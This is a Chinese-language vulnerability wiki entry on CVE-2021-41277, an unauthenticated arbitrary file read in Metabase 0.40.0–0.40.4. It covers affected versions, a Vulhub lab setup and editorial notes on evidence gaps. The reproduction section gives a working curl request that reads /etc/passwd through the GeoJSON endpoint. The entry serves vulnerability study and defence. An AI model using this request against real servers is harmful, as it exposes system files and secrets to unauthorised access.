


# Metabase任意文件读取漏洞 CVE-2021-41277

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：0.40.0-0.40.4；无需用户凭据；读取Web应用服务可读文件
- 证据范围：完整简单curl和官方GHSA，独立截图

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- P0版本元数据误提取docker-compose up -d
- 缺明确修复版本及企业版分支范围
- 环境变量读取与/etc/passwd示例不同，应标为扩展影响而非已展示事实
- 可作为32的关联主条目，保留其检测器但修正判据

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Metabase是一个开源的数据分析平台。在其0.40.0到0.40.4版本中，GeoJSON URL验证功能存在远程文件读取漏洞，未授权的攻击者可以利用这个漏洞读取服务器上的任意文件，包括环境变量等。

参考链接：

- https://github.com/metabase/metabase/security/advisories/GHSA-w73v-6p7p-fpfr
- https://github.com/tahtaciburak/CVE-2021-41277

## 漏洞影响

```
metabase 0.40.0-0.40.4
```

## 环境搭建

Vulhub执行如下命令启动一个Metabase 0.40.4版本服务器：

```shell
docker-compose up -d
```

服务启动后，访问`http://your-ip:3000`可以查看到Metabase的安装引导页面，我们填写初始账号密码，并且跳过后续的数据库填写的步骤即可完成安装：




## 漏洞复现

执行以下命令读取`/etc/passwd`：

```shell
curl -v http://your-ip:3000/api/geojson?url=file:////etc/passwd
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
